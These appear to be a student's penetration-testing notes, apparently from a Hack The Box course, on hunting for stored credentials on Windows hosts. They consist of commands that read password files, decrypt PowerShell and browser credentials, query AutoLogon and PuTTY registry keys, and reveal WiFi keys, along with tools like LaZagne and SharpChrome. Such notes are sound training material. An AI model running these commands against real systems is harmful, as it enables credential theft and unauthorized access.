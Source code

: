 Application Configuration Files 
	Powershell find string:
		`findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml`
Dictionary Files 
	Add words the dictionary doesn't understand?
		`gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt'`
Unattended Installation Files 
	May define auto-logon settings or additional accounts 
		Unattended.xml
PowerShell
	History File 
		Confirm PowerShell history save path 
			`(Get-PSReadLineOption).HistorySavePath`
		Read History 
			`gc (Get-PSReadLineOption).HistorySavePath`
		Read for all users we can access 
			`foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}`
	PowerShell Credentials 
		Protected using [DPAPI](https://en.wikipedia.org/wiki/Data_Protection_API)
			Typically only be decrypted by the same user. 
		Decrypt Password
			`$credential = Import-Clixml -Path '<path to file>'`
			`$credential.GetNetworkCredential().username`
			`$credential.GetNetworkCredential().password`
Other Files
	In an active directory use [Snaffler](https://github.com/SnaffCon/Snaffler) to search for files.
	Example Searches for File contents 
		`cd <directory> & findstr /SI /M "password" *.xml *.ini *.txt`
		`findstr /si password *.xml *.ini *.txt *.config`
		`findstr /spin "password" *.*`
		`Select-string -Path <directory>\*.txt -Pattern password'
	Example Searches for File Extensions 
		`dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*`
		`where /R C:\ *.config`
		`Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore`
Sticky Notes Passwords
	`C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite`
	Copy the file and open with a [DB Browser](https://sqlitebrowser.org/dl/)
	View In powershell using [PSSQLite](https://github.com/RamblingCookieMonster/PSSQLite)
		`Set-ExecutionPolicy Bypass -Scope Process`
		`cd .\PSQLite\`
		`Import-Module .\PSQLite.psd1`
		``$db = 'C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
		`Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap`
	Can also use strings
Interesting Files```
	%SYSTEMDRIVE%\pagefile.sys
	%WINDIR%\debug\NetSetup.log
	%WINDIR%\repair\sam
	%WINDIR%\repair\system
	%WINDIR%\repair\software, %WINDIR%\repair\security
	%WINDIR%\iis6.log
	%WINDIR%\system32\config\AppEvent.Evt
	%WINDIR%\system32\config\SecEvent.Evt
	%WINDIR%\system32\config\default.sav
	%WINDIR%\system32\config\security.sav
	%WINDIR%\system32\config\software.sav
	%WINDIR%\system32\config\system.sav
	%WINDIR%\system32\CCM\logs\*.log
	%USERPROFILE%\ntuser.dat
	%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
	%WINDIR%\System32\drivers\etc\hosts
	C:\ProgramData\Configs\*
	C:\Program Files\Windows PowerShell\*```
[CmdKey](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey) Saved Credentials
	Stored credentials for for CLI work
	`cmdkey /list`
	Run commands as another use 
		`runas /savecred /user:<domain/user>`
Browser Credentials 
	[SharpChrome](https://github.com/GhostPack/SharpDPAPI) to retrieve cookies and saved logins. 
		`.\SharpChrome.exe logins /unprotect`
Password Managers
	KeePass stores locally.
		.kdbx
		keepass2john
Email
	[Mail Sniper](https://github.com/dafthack/MailSniper)on Microsoft exchange
Registry 
	Windows AutoLogon
		`reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"`
	Putty
		`reg query Computer\HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions`
		`reg query Computer\HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\<session name>`
Final Effort
	[LaZagne](https://github.com/AlessandroZ/LaZagne)
		`.\lazagne.exe all`
	[SessionGopher](https://github.com/Arvanaghi/SessionGopher)
		`Import-Module .\SessionGopher.ps1` 
		`Invoke-SessionGopher -Target <pc name>
			`cmd /k hostname`
WiFi Passwords
	Rare
	`netsh wlan show profile`
	`netsh wlan show profile <profile name> key=clear`